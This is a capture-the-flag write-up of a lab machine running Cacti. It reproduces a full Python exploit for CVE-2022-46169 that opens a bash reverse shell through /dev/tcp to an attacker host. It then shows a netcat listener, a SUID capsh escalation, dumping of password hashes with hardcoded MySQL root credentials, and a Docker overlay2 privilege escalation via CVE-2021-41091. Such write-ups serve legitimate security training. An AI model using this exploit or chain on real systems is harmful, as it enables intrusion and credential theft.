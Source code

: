 Nmap scan report for 10.10.11.211
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-favicon: Unknown favicon MD5: 4F12CCCD3C42A4A478F067337FE92794
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel




# WebApp

In home page there's a login ..

reveals this
Version 1.2.22 | (c) 2004-2023 - The Cacti Group

which is affected to CVE-2022-46169

on Google found a promising [exploit](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22)


```py
import requests, optparse, sys
import urllib

def get_arguments():
    parser= optparse.OptionParser()
    parser.add_option('-u', '--url', dest='url_target', help='The url target')
    parser.add_option('', '--LHOST', dest='lhost', help='Your ip')
    parser.add_option('', '--LPORT', dest='lport', help='The listening port')
    (options, arguments) = parser.parse_args()
    if not options.url_target:
        parser.error('[*] Pls indicate the target URL, example: -u http://10.10.10.10')
    if not options.lhost:
        parser.error('[*] Pls indicate your ip, example: --LHOST=10.10.10.10')
    if not options.lport:
        parser.error('[*] Pls indicate the listening port for the reverse shell, example: --LPORT=443')
    return options

def checkVuln():
    r = requests.get(Vuln_url, headers=headers)
    return (r.text != "FATAL: You are not authorized to use this service" and r.status_code != 403)

def bruteForcing():
    for n in range(1,5):
        for n2 in range(1,10):
            id_vulnUrl = f"{Vuln_url}?action=polldata&poller_id=1&host_id={n}&local_data_ids[]={n2}"
            r = requests.get(id_vulnUrl, headers=headers)
            if r.text != "[]":
                RDname = r.json()[0]["rrd_name"]
                if RDname == "polling_time" or RDname == "uptime":
                    print("Bruteforce Success!!")
                    return True, n, n2
    return False, 1, 1

def Reverse_shell(payload, host_id, data_ids):
    PayloadEncoded = urllib.parse.quote(payload)
    InjectRequest = f"{Vuln_url}?action=polldata&poller_id=;{PayloadEncoded}&host_id={host_id}&local_data_ids[]={data_ids}"
    r = requests.get(InjectRequest, headers=headers)


if __name__ == '__main__':
    options = get_arguments()
    Vuln_url = options.url_target + '/remote_agent.php'
    headers = {"X-Forwarded-For": "127.0.0.1"}
    print('Checking...')
    if checkVuln():
        print("The target is vulnerable. Exploiting...")
        print("Bruteforcing the host_id and local_data_ids")
        is_vuln, host_id, data_ids = bruteForcing()
        myip = options.lhost
        myport = options.lport
        payload = f"bash -c 'bash -i >& /dev/tcp/{myip}/{myport} 0>&1'"
        if is_vuln:
            Reverse_shell(payload, host_id, data_ids)
        else:
            print("The Bruteforce Failled...")

    else:
        print("The target is not vulnerable")
        sys.exit(1)


```



```bash
python3 CVE-2022-46169.py  -u http://10.10.11.211 --LHOST=IP --LPORT=443
```


## Spawn as www-data


```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.216.153] 36828
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$
```

## Container root

```bash
find / -perm -4000 2>/dev/null

```

finds an interesting suid 


so if `/sbin//capsh --gid=0 --uid=0 --` we are root



also found a /entrypoint.sh which is a SUID



```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"

```


so if we connect in msyql with this command we can exfiltrate username and passwords 




```
mysql --host=db --user=root --password=root cacti -e "select * from user_auth;"

```


found 2 hashes;


and 2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C is cracked 


## SSH 


`ssh marcus@10.10.11.211` 

we are marcus now and i find with linpeas a cool command which is findmnt ! it reveals all path of the container and i see this

```
├─/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
│                                     overlay     overlay     rw,relatime,lowerdir=/var/lib/docker/overlay2/l/756FTPFO4AE7HBWVGI5TXU76FU:/var/lib/docker/overlay2/l/XKE4ZK5GJUTHXKVYS4MQMJ3NO
├─/var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
│                                     shm         tmpfs       rw,nosuid,nodev,noexec,relatime,size=65536k
├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
│                                     overlay     overlay     rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM6X4BLW7GXAJOAA4SJ:/var/lib/docker/overlay2/l/Z4RNRWTZKMXNQJVSRJE4P2JYH
└─/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
                                      shm         tmpfs       rw,nosuid,nodev,noexec,relatime,size=65536k

```


in overlay2 i found this article https://github.com/UncleJ4ck/CVE-2021-41091

This exploit offers an in-depth look at the CVE-2021-41091 security vulnerability and provides a step-by-step guide on how to utilize the exploit script to achieve privilege escalation on a host.

#### Vuln 

CVE-2021-41091 is a flaw in Moby (Docker Engine) that allows unprivileged Linux users to traverse and execute programs within the data directory (usually located at /var/lib/docker) due to improperly restricted permissions. This vulnerability is present when containers contain executable programs with extended permissions, such as setuid. Unprivileged Linux users can then discover and execute those programs, as well as modify files if the UID of the user on the host matches the file owner or group inside the container.




#### Overlay


The overlay filesystem is a critical component in exploiting this vulnerability. Docker's overlay filesystem enables the container's file system to be layered on top of the host's file system, thus allowing the host system to access and manipulate the files within the container. In the case of CVE-2021-41091, the overly permissive directory permissions in /var/lib/docker/overlay2 enable unprivileged users to access and execute programs within the containers, leading to a potential privilege escalation attack. Exploitation Steps

- Connect to the Docker container hosted on your machine and obtain root access.

- Inside the container, set the setuid bit on /bin/bash with the following command: chmod u+s /bin/bash

- On the host system, run the provided exploit script (poc.sh) by cloning the repository and executing the script as follows:

```bash
git clone https://github.com/UncleJ4ck/CVE-2021-41091
cd CVE-2021-41091
chmod +x ./poc.sh
./poc.sh
```

The script will prompt you to confirm if you correctly set the setuid bit on /bin/bash in the Docker container. If the answer is "yes," the script will check if the host is vulnerable and iterate over the available overlay2 filesystems. If the system is indeed vulnerable, the script will attempt to gain root access by spawning a shell in the vulnerable path (the filesystem of the Docker container where you executed the setuid command on /bin/bash).



so connect once again in the container trough the CVE-2022-46169 then root the container and modify /bin/bash in a suid

then 

go on `/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged`

and then `cd bash`

`./bash -p`


and we are ROOT